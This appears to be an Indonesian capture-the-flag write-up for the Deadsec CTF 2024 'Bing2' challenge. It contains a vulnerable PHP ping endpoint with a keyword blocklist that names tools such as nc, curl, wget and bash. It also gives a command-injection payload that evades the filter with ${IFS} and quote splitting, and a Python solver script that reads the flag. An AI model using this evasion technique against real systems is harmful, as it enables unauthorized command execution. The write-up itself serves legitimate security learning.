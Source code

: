 # Bing2 - Web - Deadsec CTF 2024

Pada challenge kali ini kita diberikan sebuah web yang memiliki fitur untuk melakukan ping ke ip yang kita inginkan. untuk mendapatkan flag kita bisa memanfaatkan kerentanan yang menginjeksi command injection pada /bing.php.

## Source Code
```php
<?php

if (isset($_POST['Submit'])) {
	$target = trim($_REQUEST['ip']);

	$substitutions = array(
		' ' => '',
		'&'  => '',
		'&&' => '',
		'('  => '',
		')'  => '',
		'-'  => '',
		'`'  => '',
		'|' => '',
		'||' => '',
		'; ' => '',	
		'%' => '',
		'~' => '',
		'<' => '',
		'>' => '',
		'/ ' => '',
		'\\' => '',
		'ls' => '',
        'cat' => '',
        'less' => '',
        'tail' => '',
        'more' => '',
        'whoami' => '',
        'pwd' => '',
        'busybox' => '',
        'nc' => '',
        'exec' => '',
        'sh' => '',
        'bash' => '',
        'php' => '',
        'perl' => '',
        'python' => '',
        'ruby' => '',
        'java' => '',
        'javac' => '',
        'gcc' => '',
        'g++' => '',
        'make' => '',
        'cmake' => '',
        'nmap' => '',
        'wget' => '',
        'curl' => '',
        'scp' => '',
        'ssh' => '',
        'ftp' => '',
        'telnet' => '',
        'dig' => '',
        'nslookup' => '',
        'iptables' => '',
        'chmod' => '',
        'chown' => '',
        'chgrp' => '',
        'kill' => '',
        'killall' => '',
        'service' => '',
        'systemctl' => '',
        'sudo' => '',
        'su' => '',
        'flag' => '',
	);

	$target = str_replace(array_keys($substitutions), $substitutions, $target);

	if (stristr(php_uname('s'), 'Windows NT')) {
		$cmd = shell_exec('ping  ' . $target);
	} else {
		$cmd = shell_exec('ping  -c 4 ' . (string)$target);
        echo $cmd;
		
	}
}
```
Berdasarkan kode diatas hampir semua karakter yang dibutuhkan untuk mengeksekusi command injection ter blok, namun ada cara untuk melakukan bypass dan membaca file `flag` yang ada di `/`.

Berikut payload yang bisa digunakan untuk melakukan command injection:

```bash
127.0.0.1;${IFS}c'a't${IFS}/fl?g.txt
```

## Solver Code
```python
import httpx
import asyncio

URL = 'https://3dcd9349cfd35fa35a2b2936.deadsec.quest'

class BaseAPI():
	def __init__(self,url=URL):
		self.c = httpx.AsyncClient(base_url=url)

	def visit(self,cmd):
		return self.c.post('/bing.php',data={'ip':cmd,'Submit':'Submitted'})

class API(BaseAPI):
	...

async def main():
	api = API()
	res = await api.visit(';c\'a\'t${IFS}/fl?g.txt')
	print(res.text)

if __name__ == '__main__':
	asyncio.run(main())
```